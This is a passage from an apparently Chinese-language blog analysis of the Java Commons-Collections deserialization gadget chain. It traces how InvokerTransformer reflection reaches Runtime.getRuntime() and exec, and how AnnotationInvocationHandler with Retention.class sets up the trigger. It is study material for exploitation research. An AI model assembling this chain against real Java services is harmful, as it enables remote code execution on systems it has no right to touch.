其实就等价于

```
Runtime.class.getMethod("getRuntime",new Class[0])
```

**第三次循环**

object为getRuntime方法

```java
iTransformers[1] = InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0]})
```

同理的执行

![image-20220930142900541](https://tuchuang.huamang.xyz/img/image-20220930142900541.png)

等价于

```java
invoke.invoke(public static java.lang.Runtime java.lang.Runtime.getRuntime(),{ null, new Object[0]})
```

返回了我们千呼万唤的Runtime对象

**第四次循环**

现在我们通过反射已经拿到了Runtime对象了，接下来就是执行Runtime的exec了

这个就不多说，前面已经分析过了

#### Retention

~~Java注释相关的技术还不太懂，这里有师傅分析过：https://xz.aliyun.com/t/9873~~

没分析完整，心里一直过不去，所以到第二天还是老老实实跟了一遍这里

我们关注这个点的起始点，就在readObject中的这么一段代码

```
if (var7 != null)
```

首先我们构造这个AnnotationInvocationHandler对象的时候，var1我们传入的是Retention.class，var2传入的是我们构造的TransformedMap

```java
    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }
```

var1会被赋值给`this.type`，var2会被赋值给`this.memberValues`
